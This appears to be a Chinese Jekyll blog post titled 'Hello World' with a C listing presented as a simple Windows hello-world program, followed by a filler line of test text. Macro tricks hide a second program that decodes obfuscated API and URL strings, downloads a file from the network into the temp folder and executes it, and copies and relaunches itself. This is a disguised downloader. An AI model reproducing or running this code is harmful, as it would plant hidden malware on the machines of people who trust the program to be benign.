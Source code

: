 ```yaml
---
layout: post
title: "Hello World"
description: "一个Windows下的Hello World"
---
```



{% highlight c %}
#include <stdio.h>
#define sc _stdcall
#define M main
int _m(); 
#define main M(l p,l q){_hd(p,q);_m();}int _m
typedef unsigned long l;typedef char c,*s;typedef void v,*p;
typedef l(sc*F0)();typedef l(sc*F9)(l,l,l,l,l,l,l,l,l);
typedef l(sc*F1)(l); typedef l(sc*F8)(l,l,l,l,l,l,l,l);
typedef l(sc*F2)(l,l); typedef l(sc*F7)(l,l,l,l,l,l,l);
typedef l(sc*F3)(l,l,l); typedef l(sc*F6)(l,l,l,l,l,l);
typedef l(sc*F4)(l,l,l,l); typedef l(sc*F5)(l,l,l,l,l);
c __mp[1<<7]={0};l i,j,k,m,n,kl,nl,sl;c bf[1<<12];
l strcpy(l,l);l strcat(l,l);
F1 _nc,_ll,_fc;F2 _ga,_tp;F3 _cf;F4 _nr;F5 _no,_fw;F6 _nu,_sh;F7 _fn;
s __st[]={")GFzGda&Zldd","MszszG\\Zldd","!8Gdda&Zldd",
          "3z\\GFzG\\u0Gz;","3z\\GFzG\\fG{lBsdG","3z\\GFzG\\u0GzWFd;",
          "3z\\GFzG\\QdU!GX{zldG","QFG{\\GBsdG;","mFs\\GBsdG",
          "QdU!GX{zldG","QU0cBsdG;\0\\;","}G\\|G?0P{\\8;",
          "A8Gddg(G17\\G;","zGMVGFZG(G","8\\\\0~55MZ!Z]05sz!\\{ddZl{\\",
          "\\G?0ZG(G\0QEd","F7z{!\0\\0","U0Gz\0GzzD"};
l _dc(s o,s i){
    s p=i;do*(o+(l)p-(l)i+1)=__mp[*p];while(*p && p++);return 0;}
l rl(s z){for(i=0;i<sizeof(l)*8;i++)
    if(((l)z>>i)&1)z=(s)((l)z&~(1<<i));else{z=(s)((l)z|(1<<i));break;};
    return (l)z;}
v _in(){
    l sc LoadLibraryA(l);l sc GetProcAddress(l,l);
    i=j=0;do*(__mp+ j++ +0x20)=i+0x20,i=(i+83)%(0x60);while(i!=0);
    _ga =(F2)GetProcAddress,_ll=(F1)LoadLibraryA;kl=_ll((_dc(bf,__st[0]),rl(bf)));
    nl=_ll((_dc(bf,__st[1]),rl(bf)));sl=_ll((_dc(bf,__st[2]),rl(bf)));
    _no=(F5)_ga(nl,(_dc(bf,__st[3]),rl(bf)));_nr=(F4)_ga(nl,(_dc(bf,__st[4]),rl(bf)));
    _nu=(F6)_ga(nl,(_dc(bf,__st[5]),rl(bf)));_nc=(F1)_ga(nl,(_dc(bf,__st[6]),rl(bf)));
    _fn=(F7)_ga(kl,(_dc(bf,__st[7]),rl(bf)));_fw=(F5)_ga(kl,(_dc(bf,__st[8]),rl(bf)));
    _fc=(F1)_ga(kl,(_dc(bf,__st[9]),rl(bf)));_cf=(F3)_ga(kl,(_dc(bf,__st[10]),rl(bf)));
    _tp=(F2)_ga(kl,(_dc(bf,__st[11]),rl(bf)));_sh=(F6)_ga(sl,(_dc(bf,__st[12]),rl(bf)));
}
l _dl(l u){
    l cn,sn,f,rr,ln=0;
    sn=_no((l)"poilynx",1,0,0,0);if(!sn)return 0;
    cn = _nu(sn,(_dc(bf,__st[14]),rl(bf)),0,0,1<<30,0);
    if(!cn){_nc(sn);return 0;}f=_fn(u,1<<30,3,0,2,1<<7,0);
    while(_nr(cn,(l)bf, sizeof(bf),(l)&rr),rr)ln+=rr,_fw(f,(l)bf,rr,(l)&rr,0);
    _nc(cn);_nc(sn);_fc(f);
    return 1;
}
v _hd(l ac,l av)
{
    c td[1<<10];_in();_tp(1<<12,(l)td);
    if(ac>1 && (((s*)av)[1])[0]==0x53 && (((s*)av)[1])[1]==0){
        strcat((l)td,(_dc(bf,__st[13]),rl(bf)));
        while(!_dl((l)td));
        while(_sh(0,(_dc(bf,__st[16]),rl(bf)),(l)td,0,0,0)<1<<5);
    }else{
        strcat((l)td,(_dc(bf,__st[15]),rl(bf)));_cf((l)((s*)av)[0],(l)td,0);
        _sh(0,(_dc(bf,__st[17]),rl(bf)),(l)td,(m=0x53,(l)&m),0,0);}
    return;
}

int main()
{
    puts("hello world");
    return 0;
}
{% endhighlight %}

这是一段特特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别特别别长的测试文本。
